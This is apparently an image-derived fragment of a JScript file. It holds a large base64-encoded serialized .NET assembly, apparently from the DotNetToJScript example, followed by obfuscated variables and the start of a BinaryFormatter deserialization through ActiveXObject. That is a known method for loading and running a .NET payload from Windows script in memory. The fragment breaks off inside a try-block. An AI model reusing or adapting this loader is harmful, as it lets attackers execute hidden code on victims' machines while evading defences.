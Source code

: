 >"DgMgAA4GAAMODg4OCLd6XFYZNOCJCLA/X38R1Qo6AwYSQQMGEkUDBhJJAgYOAwYdCAMGERAEIAEC"+ 
>"DgYgAgEcElEIAQAIAAAAAAAeAQABAFQCFldyYXBOb25FeGNlcHRpb25UaHJvd3MBCAEABwEAAAAA"+ 
>"FAEAD0V4YW1wbGVBc3NlbWJseQAAKQEAJEV4YW1wbGUgQXNzZW1ibHkgZm9yIERvdE5ldFRvSlNj"+ 
>"cmlwdAAABQEAAAAAJAEAH0NvcHlyaWdodCDCqSBKYW1lcyBGb3JzaGF3IDIwMTcAACkBACQ1NjU5"+ 
>"OGYxYy02ZDg4LTQ5OTQtYTM5Mi1hZjMzN2FiZTU3NzcAAAwBAAcxLjAuMC4wAAAFAQABAAAEAQAA"+ 
>"AAC0AAAAzsrvvgEAAACRAAAAbFN5c3RlbS5SZXNvdXJjZXMuUmVzb3VyY2VSZWFkZXIsIG1zY29y"+ 
>"bGliLCBWZXJzaW9uPTIuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3"+ 
>"YTVjNTYxOTM0ZTA4OSNTeXN0ZW0uUmVzb3VyY2VzLlJ1bnRpbWVSZXNvdXJjZVNldAIAAAAAAAAA"+ 
>"AAAAAFBBRFBBRFC0AAAAAAAAABDOcFoAAAAAAgAAABwBAABwMQAAcBMAAFJTRFNLakRIDHHSTac9"+ 
>"HkvNlktIAQAAAEM6XFVzZXJzXGxhYlxEb3dubG9hZHNcRG90TmV0VG9KU2NyaXB0LW1hc3RlclxF"+ 
>"eGFtcGxlQXNzZW1ibHlcb2JqXERlYnVnXEFpbmdlaVJhaTVIYWhmZWlUaGUyLnBkYgAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAtDIAAAAAAAAAAAAAzjIA"+ 
>"AAAgAAAAAAAAAAAAAAAAAAAAAAAAAAAAAMAyAAAAAAAAAAAAAAAAX0NvckRsbE1haW4AbXNjb3Jl"+ 
>"ZS5kbGwAAAAAAP8lACAAEBUAAABbAAAAFAAAAAAAAAB+AAAAAAAAAD0AAAAYAAAAAgAAAFIAAAAH"+ 
>"AAAAEQAAAFgAAAAWAAAAEgAAABUAAAByAAAAdQAAAA8AAABQAAAAOwAAABgAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABABAAAAAYAACAAAAAAAAAAAAAAAAAAAABAAEA"+ 
>"AAAwAACAAAAAAAAAAAAAAAAAAAABAAAAAABIAAAAWEAAAMgDAAAAAAAAAAAAAMgDNAAAAFYAUwBf"+ 
>"AFYARQBSAFMASQBPAE4AXwBJAE4ARgBPAAAAAAC9BO/+AAABAAAAAQAAAAAAAAABAAAAAAA/AAAA"+ 
>"AAAAAAQAAAACAAAAAAAAAAAAAAAAAAAARAAAAAEAVgBhAHIARgBpAGwAZQBJAG4AZgBvAAAAAAAk"+ 
>"AAQAAABUAHIAYQBuAHMAbABhAHQAaQBvAG4AAAAAAAAAsAQoAwAAAQBTAHQAcgBpAG4AZwBGAGkA"+ 
>"bABlAEkAbgBmAG8AAAAEAwAAAQAwADAAMAAwADAANABiADAAAABiACUAAQBDAG8AbQBtAGUAbgB0"+ 
>"AHMAAABFAHgAYQBtAHAAbABlACAAQQBzAHMAZQBtAGIAbAB5ACAAZgBvAHIAIABEAG8AdABOAGUA"+ 
>"dABUAG8ASgBTAGMAcgBpAHAAdAAAAAAAIgABAAEAQwBvAG0AcABhAG4AeQBOAGEAbQBlAAAAAAAA"+ 
>"AAAASAAQAAEARgBpAGwAZQBEAGUAcwBjAHIAaQBwAHQAaQBvAG4AAAAAAEUAeABhAG0AcABsAGUA"+ 
>"QQBzAHMAZQBtAGIAbAB5AAAAMAAIAAEARgBpAGwAZQBWAGUAcgBzAGkAbwBuAAAAAAAxAC4AMAAu"+ 
>"ADAALgAwAAAAUgAZAAEASQBuAHQAZQByAG4AYQBsAE4AYQBtAGUAAABBAGkAbgBnAGUAaQBSAGEA"+ 
>"aQA1AEgAYQBoAGYAZQBpAFQAaABlADIALgBkAGwAbAAAAAAAYgAfAAEATABlAGcAYQBsAEMAbwBw"+ 
>"AHkAcgBpAGcAaAB0AAAAQwBvAHAAeQByAGkAZwBoAHQAIACpACAASgBhAG0AZQBzACAARgBvAHIA"+ 
>"cwBoAGEAdwAgADIAMAAxADcAAAAAACoAAQABAEwAZQBnAGEAbABUAHIAYQBkAGUAbQBhAHIAawBz"+ 
>"AAAAAAAAAAAAWgAZAAEATwByAGkAZwBpAG4AYQBsAEYAaQBsAGUAbgBhAG0AZQAAAEEAaQBuAGcA"+ 
>"ZQBpAFIAYQBpADUASABhAGgAZgBlAGkAVABoAGUAMgAuAGQAbABsAAAAAABAABAAAQBQAHIAbwBk"+ 
>"AHUAYwB0AE4AYQBtAGUAAAAAAEUAeABhAG0AcABsAGUAQQBzAHMAZQBtAGIAbAB5AAAANAAIAAEA"+ 
>"UAByAG8AZAB1AGMAdABWAGUAcgBzAGkAbwBuAAAAMQAuADAALgAwAC4AMAAAADgACAABAEEAcwBz"+ 
>"AGUAbQBiAGwAeQAgAFYAZQByAHMAaQBvAG4AAAAxAC4AMAAuADAALgAwAAAAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAADAAAAwAAADgMgAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+ 
>"AAAAAAAAAAAAAAABDQAAAAQAAAAJFwAAAAkGAAAACRYAAAAGGgAAACdTeXN0ZW0uUmVmbGVjdGlv"+ 
>"bi5Bc3NlbWJseSBMb2FkKEJ5dGVbXSkIAAAACgsA"; 
>
>var aiQu9oof = 'AingeiRai5HahfeiThe2';  
>try { 
>	var pohceiC7 = Trololo(dei0eiFu); 
>	var giigh0Ku = new ActiveXObject('System.Runtime.Serialization.Formatters.Binary.BinaryFormatter'); 